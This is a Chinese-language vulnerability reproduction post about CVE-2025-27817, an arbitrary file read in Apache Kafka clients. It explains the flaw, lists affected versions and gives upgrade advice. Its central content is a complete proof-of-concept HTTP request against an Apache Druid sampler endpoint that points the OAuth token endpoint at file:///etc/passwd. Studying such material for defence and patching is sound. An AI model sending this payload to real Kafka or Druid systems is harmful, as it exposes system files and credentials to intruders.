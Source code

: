 #  【漏洞复现】Kafka Connect任意文件读取漏洞（CVE-2025-27817)  
PokerSec  PokerSec   2025-06-12 02:43  
  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
Apache Kafka 是一个开源分布式事件流平台，被数千家公司用于高性能数据管道、流分析、数据集成和任务关键型应用程序。Apache Kafka 客户端接受用于设置与代理的 SASL/OAUTHBEARER 连接的配置数据，包括“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”。Apache Kafka 允许客户端读取任意文件并返回错误日志中的内容，或将请求发送到意外位置。在 Apache Kafka 客户端配置可由不受信任的一方指定的应用程序中，攻击者可能会使用“sasl.oauthbearer.token.endpoint.url”和“sasl.oauthbearer.jwks.endpoint.url”配置来读取磁盘和环境变量的任意内容或向意外位置发出请求。  
## 影响范围  
  
3.1.0 ≤ Apache Kafka < 3.9.1  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Ej4eNleprJLj6msOWBPWQgs5gPtxcbRwicK7VYD0yPDkCCWMqibo21wQsiamAIQP4dwYXavDQEwmFZDX0zNSqEm3w/640?wx_fmt=jpeg&from=appmsg "")  
  
环境搭建，使用vulhub的之前漏洞环境  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLj6msOWBPWQgs5gPtxcbRw2sf0vd4WeicbyPEuZ5HEUFwpD0B0wydeQfeIDNiahw7t6uF025z7AJibA/640?wx_fmt=png&from=appmsg "")  
```
https://github.com/vulhub/vulhub/blob/master/kafka/CVE-2023-25194
```  
  
poc测试  
```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: 192.168.168.130:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1752
{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{"bootstrap.servers": "127.0.0.1:6666","sasl.mechanism": "OAUTHBEARER","security.protocol": "SASL_SSL","sasl.login.callback.handler.class": "org.apache.kafka.common.security.oauthbearer.secured.OAuthBearerLoginCallbackHandler","sasl.oauthbearer.token.endpoint.url":"file:///etc/passwd","sasl.jaas.config": "org.apache.kafka.common.security.oauthbearer.OAuthBearerLoginModule required sasl.oauthbearer.token.endpoint.url=\"http://127.0.0.1/token\" sasl.oauthbearer.jwks.endpoint.url=\"http://127.0.0.1/jwks\" sasl.oauthbearer.client.id=your-client-id sasl.oauthbearer.client.secret=your-client-secret sasl.oauthbearer.expected.audience=kafka sasl.oauthbearer.expected.issuer=\"http://127.0.0.1\" useFirstPass=true serviceName=kafka debug=true;"},
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{
            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJLj6msOWBPWQgs5gPtxcbRwcCoW8te3XzRuWU8JNKvLiakic23kB6j47ACpqXNYGODiaEoo3PEmOGFHg/640?wx_fmt=png&from=appmsg "")  
## 修复意见  
  
官方已发布最新版本修复该漏洞，建议受影响用户将Apache Kafka更新到3.9.1及以上版本。  
  
下载链接：  
  
https://github.com/apache/kafka/tags   
  
  
如有侵权，请及时联系删除。  
  
